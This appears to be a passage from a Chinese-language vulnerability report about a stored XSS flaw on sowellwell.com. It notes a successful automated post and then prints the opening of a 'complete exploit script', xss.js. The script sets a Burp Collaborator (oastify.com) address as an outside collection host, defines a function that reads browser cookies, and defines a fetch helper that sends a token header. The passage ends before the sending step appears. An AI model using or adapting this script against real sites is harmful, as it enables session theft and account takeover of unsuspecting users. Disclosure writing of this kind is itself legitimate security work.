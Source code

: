    自动发帖成功：https://sowellwell.com/t/612f69f604c21506084dcda2/64fbd2e8bb034de073c97012
    ![swarm](./images/swarm.png)

### 漏洞证明
请提供截图或视频
完整利用脚本xss.js如下：

    // burpsuite collaborator url
    const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'

    // 获取cookie信息
    const getCookieValue = (name) => (
        document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
    )

    // 构造GET发送请求
    const myFetch = async (url, token) => {
        let data = await fetch(url, {
            method: 'GET',
            headers: {
                'Identifier': token,
            },
        })
        let res = await data.json();
        return res
    }
